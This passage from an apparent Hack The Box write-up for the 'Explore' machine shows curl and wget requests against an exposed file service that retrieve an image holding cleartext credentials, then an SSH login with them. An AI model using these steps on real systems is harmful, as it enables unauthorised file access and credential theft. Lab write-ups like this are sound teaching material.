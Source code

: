 We can then check for interesting files on the system. Checking for any pictures, reveals a file named `creds.jpg`, which hints at possible cleartext credentials.

```bash
curl -X POST -H "Content-Type: application/json" -d '{"command":"listPics"}' http://explore.htb:59777
```

![Possible credentials in pictures](/images/writeups/htb-explore/listpics.png)

From the blog post, we know that we can directory access and download files from the system using a `GET` request to its path. We can do this by using `wget`.

```bash
wget http://explore.htb:59777/storage/emulated/0/DCIM/creds.jpg
```

![creds.jpg](/images/writeups/htb-explore/creds.png)

It seems we got lucky and discovered cleartext credentials!

```
kristi:Kr1sT!5h@Rp3xPl0r3!
```

## System Access over SSH

The next step is to try if we can use these credentials somewhere. An obvious target here is the SSH server on port ``2222``.

```bash
ssh kristi@explore -p 2222
```

![SSH Access](/images/writeups/htb-explore/ssh.png)
